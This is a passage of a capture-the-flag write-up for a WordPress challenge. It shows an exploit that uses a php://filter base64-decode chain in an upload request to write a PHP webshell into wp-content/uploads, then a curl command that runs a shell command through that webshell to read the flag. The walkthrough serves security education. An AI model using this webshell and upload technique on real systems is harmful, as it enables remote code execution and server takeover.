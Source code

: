 ```
php://filter/write=convert.base64-decode/resource=./shell
```

But wait, we should write the PHP script into where? Fortunately, since directory `/var/www/html/wp-content/uploads/` is writable, we can write our PHP script into that directory.

## Exploitation

Armed with above information, we can write our PHP webshell via the following POST request:

```http
POST /?rest_route=/test/upload/anything HTTP/1.1
Host: 52.77.81.199:9199
Content-Length: 215
Content-Type: application/json;charset=UTF-8

{
    "name": "php://filter/write=convert.base64-decode/resource=/var/www/html/wp-content/uploads/shell",
    "somevalue": "secretword_is_\u0000true",
    "content": "aPD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+"
}
```

Base64 decoded payload:

```php
<?php system($_GET["cmd"]); ?>
```

> Note: The `a` character in the beginning is for padding. Otherwise the base64 decode filter chain will combine the original code and decode the wrong payload.

After that, we can use our PHP webshell to get the flag:

```shell
┌[siunam♥Mercury]-(~/ctf/Patchstack-Alliance-CTF-S02E01/Blocked)-[2025.02.26|17:46:49(HKT)]
└> curl --get http://52.77.81.199:9199/wp-content/uploads/shell.php --data-urlencode 'cmd=cat /flag*.txt'
��^�+ak��CTF{you_bypass_the_exit_nice_8b31009122dd}
```

- **Flag: `CTF{you_bypass_the_exit_nice_8b31009122dd}`**

## Conclusion

What we've learned:

1. Parser differential between the PHP and MySQL's weird behavior
2. PHP `exit()` bypass via PHP filter chain
